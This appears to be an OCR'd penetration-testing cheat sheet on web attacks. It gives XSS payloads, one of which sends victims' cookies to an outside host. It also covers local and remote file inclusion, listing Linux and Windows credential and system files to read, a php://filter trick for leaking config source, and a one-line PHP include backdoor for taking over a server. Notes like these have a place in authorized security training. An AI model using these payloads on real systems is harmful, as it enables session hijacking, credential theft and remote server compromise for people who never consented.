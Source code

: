     Things to be on look for:
       • Default credentials for software
       • SQL-injectable GET/POST params
       • XSS
        Test
           •  <script> alert("Hello! I am an alert box!!");</script>
           •  <iframe SRC="http:10.11.0.106/xss_test.html" height = "0" width ="0"></iframe>   
        Exploit
           •  <script>new Image().src="http://10.11.0.106/bogus.php?output="+document.cookie;</script>
           •  LFI/RFI through ?page=foo type params
            LFI:
              •   /etc/passwd | /etc/shadow insta-win
              •   /var/www/html/config.php or similar paths to get SQL etc creds
              •   ?page=php://filter/convert.base64-encode/resource=../config.php
              •   ../../../../../boot.ini to find out windows version
            RFI:
              •   Have your PHP/cgi downloader ready
              •   <?php include $_GET['inc']; ?> simplest backdoor to keep it dynamic without anything messing your output
              •   Then you can just http://$IP/inc.php?inc=http://$YOURIP/bg.php and have full control with minimal footprint on                     target machine
              •   get phpinfo()

    HTTPS
       •  Heartbleed / CRIME / Other similar attacks
       •  Read the actual SSL CERT to:
           •  find out potential correct vhost to GET
           •  is the clock skewed
           •  any names that could be usernames for bruteforce/guessing

    LFI Linux Files:
       •  /etc/issue
       •  /proc/version
       •  /etc/profile
       •  /etc/passwd
       •  /etc/shadow
       •  /root/.bash_history
       •  /var/mail/root
       •  /var/spool/cron/crontabs/root
       •  /etc/sysconfig/iptables   
       •  /etc/sysconfig/ip6tables
       
    LFI Windows Files:
       •  %SYSTEMROOT%\repair\system
       •  %SYSTEMROOT%\repair\SAM
       •  %SYSTEMROOT%\repair\SAM
       •  %WINDIR%\win.ini
       •  %SYSTEMDRIVE%\boot.ini
       •  %WINDIR%\Panther\sysprep.inf
       •  %WINDIR%\system32\config\AppEvent.Evt
       •  c:\windows\system32\drivers\etc\hosts

